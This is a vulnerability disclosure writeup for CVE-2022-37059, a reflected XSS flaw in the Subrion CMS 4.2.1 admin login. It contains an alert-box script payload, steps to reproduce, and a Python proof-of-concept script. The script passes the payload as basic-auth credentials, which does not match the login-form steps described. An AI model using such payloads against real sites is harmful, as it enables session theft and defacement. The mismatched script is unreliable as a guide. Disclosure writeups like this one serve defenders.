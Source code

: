 ```yaml
---
title: CVE-2022-37059 - Cross-Site Scripting (XSS) Vulnerability in Subrion CMS v4.2.1
author: RashidKhanPathan
date: 2022-08-09 20:55:00 +0800
categories: [Windows]
tags: [exploit writing, Web Exploitation, 0Day]
toc: true
img_path: '/posts/20180809'
---
```



**Description:**
This writeup highlights the discovery and exploitation of a reflected Cross-Site Scripting (XSS) vulnerability in the login field of Subrion CMS v4.2.1. The exploit allows an attacker to inject malicious code, leading to the execution of arbitrary scripts in the context of an authenticated user.

**Introduction:**
Subrion CMS, a widely-used content management system, has been identified with a critical security flaw in version 4.2.1, exposing a reflected XSS vulnerability. This writeup elucidates the steps to reproduce the exploit and provides an overview of the discovered weakness

**Discovery:**
The vulnerability was discovered in the login field of Subrion CMS v4.2.1, where an attacker could inject malicious scripts. By crafting a specially designed payload, the attacker successfully demonstrated the execution of arbitrary code upon login. The payload used for this exploit was:

```js
ehxxt<script>alert(1)</script>fukq
```

**Steps to Reproduce:**
1. Navigate to the vulnerable URL: http://localhost/subrioncms/panel/
2. Copy and paste the crafted payload into the login field.
3. Enter any password and click the login button.
4. Observe the execution of the payload, triggering an alert.

**Exploit Code:**
The provided Python script automates the exploitation process. The script utilizes the requests library to send a crafted request to the vulnerable login endpoint. Upon execution, the payload triggers the XSS vulnerability, showcasing its potential impact.

```python
import requests

class Exploit:
    def print_exploit_info(self):
        print("[+] Cross-Site Scripting in Admin Panel of Subrion CMS 4.2.1")
        print("[+] Author: RashidKhan Pathan")
        print("[+] CVE-2022-37059")
        print("[+] Tested on: Windows 10, Kali Linux")

    def XSS_Exploit(self):
        response = requests.get(
            "http://localhost/subrioncms/panel/", auth=("ehxxt<script>alert(1)</script>fukq", "anypassword"))
        print(response.content)

# Instantiate the Exploit class and execute the exploit
exploit = Exploit()
exploit.print_exploit_info()
exploit.XSS_Exploit()
```

**Impact:**
The exploitation of this XSS vulnerability enables attackers to inject and execute arbitrary scripts within the context of authenticated users. This could lead to various malicious activities, such as stealing sensitive information, session hijacking, or defacement of the CMS interface.

**Mitigation:**
To address this security flaw, users are strongly advised to update their Subrion CMS installations to the latest version, where the vulnerability has been patched. Additionally, security measures such as input validation and output encoding should be implemented to prevent similar XSS attacks in web applications.

**Conclusion:**
The identification and disclosure of the XSS vulnerability in Subrion CMS v4.2.1 underscore the critical importance of ongoing security assessments and prompt updates. The collaboration between security researchers and CMS developers remains crucial to maintaining a secure online environment for users and businesses alike.

